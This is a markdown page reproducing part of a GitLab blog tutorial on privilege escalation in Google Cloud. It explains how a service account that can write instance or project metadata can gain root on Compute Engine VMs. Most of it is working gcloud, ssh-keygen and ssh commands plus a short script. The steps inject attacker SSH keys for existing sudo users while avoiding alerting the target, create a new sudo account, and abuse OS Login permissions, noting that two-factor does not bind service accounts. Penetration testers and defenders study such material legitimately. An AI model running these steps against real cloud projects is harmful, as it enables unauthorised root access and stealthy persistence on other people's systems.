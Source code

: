 ```yaml
---
author_name: Chris Moberly
title: "Local Privilege Escalation: Modifying the Metadata"
description: Escalating privileges on a VM via instance metadata.
---
```


Extracted from the GitLab blog post "[Tutorial on privilege escalation and post exploitation tactics in Google Cloud Platform environments](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/#modifying-the-metadata)" by [Chris Moberly](https://about.gitlab.com/company/team/#cmoberly)

---

If you can modify the instance's metadata, there are numerous ways to escalate privileges locally. There are a few scenarios that can lead to a service account with this permission:

*Default service account*

When using the default service account, the web management console offers the following options for access scopes:

- Allow default access (default)
- Allow full access to all Cloud APIs
- Set access for each API

If option 2 was selected, or option 3 while explicitly allowing access to the compute API, then this configuration is vulnerable to escalation.

*Custom service account*

When using a custom service account, one of the following IAM permissions is necessary to escalate privileges:

- compute.instances.setMetadata (to affect a single instance)
- compute.projects.setCommonInstanceMetadata (to affect all instances in the project)

Although Google [recommends](https://cloud.google.com/compute/docs/access/service-accounts#associating_a_service_account_to_an_instance) not using access scopes for custom service accounts, it is still possible to do so. You'll need one of the following access scopes:

- https://www.googleapis.com/auth/compute
- https://www.googleapis.com/auth/cloud-platform


## Add SSH keys to custom metadata

Linux systems on GCP will typically be running [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) scripts. One of these is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which periodically queries the instance metadata endpoint for changes to the authorized SSH public keys.

If a new public key is encountered, it will be processed and added to the local machine. Depending on the format of the key, it will either be added to the `~/.ssh/authorized_keys` file of an existing user or will create a new user with `sudo` rights.

So, if you can modify custom instance metadata with your service account, you can escalate to root on the local system by gaining SSH rights to a privileged account. If you can modify custom project metadata, you can escalate to root on any system in the current GCP project that is running the accounts daemon.

### Add SSH key to existing privileged user

Let's start by adding our own key to an existing account, as that will probably make the least noise. You'll want to be careful not to wipe out any keys that already exist in metadata, as that may tip your target off.

Check the instance for existing SSH keys. Pick one of these users as they are likely to have sudo rights.

```
$ gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

Look for a section like the following:

```
 ...
 metadata:
   fingerprint: QCZfVTIlKgs=
   items:
   ...
   - key: ssh-keys
     value: |-
       alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
       bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
 ...
```

Notice the slightly odd format of the public keys - the username is listed at the beginning (followed by a colon) and then again at the end. We'll need to match this format. Unlike normal SSH key operation, the username absolutely matters!

Save the lines with usernames and keys in a new text file called `meta.txt`.

Let's assume we are targeting the user `alice` from above. We'll generate a new key for ourselves like this:

```
$ ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

Take the output of the command above and use it to add a line to the `meta.txt` file you create above, ensuring to add `alice:` to the beggining of your new public key.

`meta.txt` should now look something like this, including the existing keys and the new key you just generated:

```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```

Now, you can re-write the SSH key metadata for your instance with the following command:

```
$ gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

You can now access a shell in the context of `alice` as follows:

```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```

## Create a new privileged user

No existing keys found when following the steps above? No one else interesting in `/etc/passwd` to target?

You can follow the same process as above, but just make up a new username. This user will be created automatically and given rights to `sudo`. Scripted, the process would look like this:

```
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
## Grant sudo to existing session
This one is so easy, quick, and dirty that it feels wrong...

```
$ gcloud compute ssh [INSTANCE NAME]
```

This will generate a new SSH key, add it to your existing user, and add your existing username to the `google-sudoers` group, and start a new SSH session. While it is quick and easy, it may end up making more changes to the target system than the previous methods.

We'll talk about this again for lateral movement, but it works perfectly fine for local privilege escalation as well.

## Using OS Login

[OS Login](https://cloud.google.com/compute/docs/oslogin/) is an alternative to managing SSH keys. It links a Google user or service account to a Linux identity, relying on IAM permissions to grant or deny access to Compute Instances.

OS Login is [enabled](https://cloud.google.com/compute/docs/instances/managing-instance-access#enable_oslogin) at the project or instance level using the metadata key of `enable-oslogin = TRUE`.

OS Login with two-factor authentication is [enabled](https://cloud.google.com/compute/docs/oslogin/setup-two-factor-authentication) in the same manner with the metadata key of `enable-oslogin-2fa = TRUE`.

The following two IAM permissions control SSH access to instances with OS Login enabled. They can be applied at the project or instance level:

- roles/compute.osLogin (no sudo)
- roles/compute.osAdminLogin (has sudo)

Unlike managing only with SSH keys, these permissions allow the administrator to control whether or not `sudo` is granted.

If you're lucky, your service account has these permissions. You can simply run the `gcloud compute ssh [INSTANCE]` command to [connect manually as the service account](https://cloud.google.com/compute/docs/instances/connecting-advanced#sa_ssh_manual). Two-factor is only enforced when using user accounts, so that should not slow you down even if it is assigned as shown above.

Similar to using SSH keys from metadata, you can use this strategy to escalate privileges locally and/or to access other Compute Instances on the network.